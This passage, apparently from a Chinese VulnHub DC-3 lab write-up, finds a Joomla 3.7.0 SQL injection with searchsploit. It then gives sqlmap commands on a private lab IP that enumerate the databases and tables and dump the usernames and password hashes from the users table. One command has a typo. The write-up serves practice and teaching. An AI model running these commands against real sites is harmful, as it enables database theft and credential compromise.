 ![](D:\stu\vulnhub\DC靶场\pic-3\7.jpg)

确定版本后，尝试使用`searchsploit`搜索有无该版本的历史漏洞

```shell
searchsploit joomla 3.7.0
```

![](D:\stu\vulnhub\DC靶场\pic-3\8.jpg)

# 漏洞利用

## ①sqlmap对数据库的简单使用

查看这个`poc`，发现给出`sqlmap`的用法

```shell
sqlmsqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

使用上面语句，成功获取信息

![](D:\stu\vulnhub\DC靶场\pic-3\10.jpg)

再次对指定的数据库爆出表

```shell
 sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables --batch
```

![](D:\stu\vulnhub\DC靶场\pic-3\11.jpg)

再次针对表爆出元组

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns 
```

![](D:\stu\vulnhub\DC靶场\pic-3\12.jpg)

爆出数据

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```

![](D:\stu\vulnhub\DC靶场\pic-3\13.jpg)
